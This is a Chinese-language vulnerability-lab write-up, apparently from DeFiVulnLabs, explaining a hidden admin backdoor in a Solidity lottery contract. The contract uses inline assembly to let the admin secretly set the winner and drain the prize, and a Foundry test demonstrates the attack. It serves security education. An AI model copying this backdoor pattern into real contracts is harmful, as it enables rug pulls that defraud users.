

# 合约中隐藏的后门  
[Backdoor-assembly.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Backdoor-assembly.sol)  
**名称：** 合约中隐藏的后门漏洞  
**描述：**   
在这份合同中，一个看似公平的“LotteryGame”合同被巧妙地设计为允许
合同部署人员/管理员有隐藏特权。  
这是通过使用汇编级访问存储变量来实现的，其中referee函数提供管理后门。  
“pickWinner”功能似乎是随机选择一个获胜者，但实际上，它允许管理员设置获胜者。  
这绕过了通常的访问控制，并可用于被未经授权的用户取走奖池中的所有资金，是rug pull的一种类型。  
攻击者可以通过编写内联汇编来操纵智能合约留下后门。  
任何敏感参数都可以随时更改。  


**场景：**  
抽奖游戏：只要运气好，任何人都可以调用pickWinner来中奖。
留有JST合约后门。许多rugged的合约都有类似的特征。
看起来合约中没有setWinner函数，管理员如何rug呢？  

**LotteryGame合约：**  
```
contract LotteryGame {
    uint256 public prize = 1000;
    address public winner;
    address public admin = msg.sender;

    modifier safeCheck() {
        if (msg.sender == referee()) {
            _;
        } else {
            getkWinner();
        }
    }

    function referee() internal view returns (address user) {
        assembly {
            //加载在插槽2上的存储的管理值 
            user := sload(2)
        }
    }

    function pickWinner(address random) public safeCheck {
        assembly {
            // 管理员后门，可以设置获胜者地址
            sstore(1, random)
        }
    }

    function getkWinner() public view returns (address) {
        console.log("Current winner: ", winner);
        return winner;
    }
}
```  
**如何测试：**  
forge test --contracts src/test/**Backdoor-assembly.sol** -vvvv
```
// 定义一个名为 testBackdoorCall 的公共函数
function testBackdoorCall() public {
    // 声明两个地址，alice和bob，并将它们的值设置为分别从vm.addr(1)和vm.addr(2)的地址。
    address alice = vm.addr(1);
    address bob = vm.addr(2);

    // 部署LotteryGame合约的新实例，并将引用存储在 LotteryGameContract变量中。
    LotteryGameContract = new LotteryGame();

    // 打印一条消息，指示 Alice 将调用 pickWinner 函数，但她实际上不会是获胜者。
    console.log("Alice performs pickWinner, of course she will not be a winner");

    // Call the prank function of vm with Alice's address as an argument, implying some manipulation may occur.
    vm.prank(alice);

    // 调用LotteryGameContract的pickWinner函数，将Alice 的地址作为参数传递。
    LotteryGameContract.pickWinner(address(alice));

    // 在pickWinner函数调用后打印当前奖金。
    console.log("Prize: ", LotteryGameContract.prize());

    // 打印一条消息，表明管理员将设置获胜者以取光奖金。
    console.log("Now, admin sets the winner to drain out the prize.");

    // 再次调用LotteryGameContract的pickWinner函数，但这次传递Bob的地址作为参数。
    LotteryGameContract.pickWinner(address(bob));

    // 打印由管理员操作的获胜者的地址。
    console.log("Admin manipulated winner: ", LotteryGameContract.winner());
```  
**红框：** 恶意设置的赢家可以中奖。
